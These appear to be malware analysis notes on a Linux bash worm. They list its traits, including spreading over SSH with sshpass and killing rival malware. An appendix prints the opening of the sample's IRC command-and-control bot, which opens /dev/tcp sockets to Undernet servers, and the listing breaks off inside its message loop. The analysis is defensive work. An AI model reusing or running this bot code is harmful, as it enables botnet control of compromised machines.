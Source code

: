 
## Notes
I list the common parts here.
1. Get the name of current program.
2. Redirect outputs to `/dev/null` 
3. kill all other malware
4. Use `sshpass` to **propagate** through infinit loop. 
5. kill every `ssh` and `scp` during propagate
6. matches CH-EXE-RM. Note, 
> change permission, exe, and rm 
are usually not used in the update process. This is because, updates don't execute immediately or remove downloaded files. 

7. Hard-coded code is a strong evidence showing that this is an infection. 

## Appendix

#### ***This is a very smart C&C client***

This is the code of `/tmp/$BOT`
```
#!/bin/bash

SYS=`uname -a | md5sum | awk -F' ' '{print $1}'`
NICK=a${SYS:24}
while [ true ]; do

	arr[0]="ix1.undernet.org"
	arr[1]="ix2.undernet.org"
	arr[2]="Ashburn.Va.Us.UnderNet.org"
	arr[3]="Bucharest.RO.EU.Undernet.Org"
	arr[4]="Budapest.HU.EU.UnderNet.org"
	arr[5]="Chicago.IL.US.Undernet.org"
	rand=$[$RANDOM % 6]
	svr=${arr[$rand]}

	eval 'exec 3<>/dev/tcp/$svr/6667;'
	if [[ ! "$?" -eq 0 ]] ; then
			continue
	fi

	echo $NICK

	eval 'printf "NICK $NICK\r\n" >&3;'
	if [[ ! "$?" -eq 0 ]] ; then
			continue
	fi
	eval 'printf "USER user 8 * :IRC hi\r\n" >&3;'
	if [[ ! "$?" -eq 0 ]] ; then
		continue
	fi

	# Main loop
	while [ true ]; do
		eval "read msg_in <&3;"

		if [[ ! "$?" -eq 0 ]] ; then
			break
		fi

		if  [[ "$msg_in" =~ "PING" ]] ; then
			printf "PONG %s\n" "${msg_in:5}";
			eval 'printf "PONG %s\r\n" "${msg_in:5}" >&3;'
```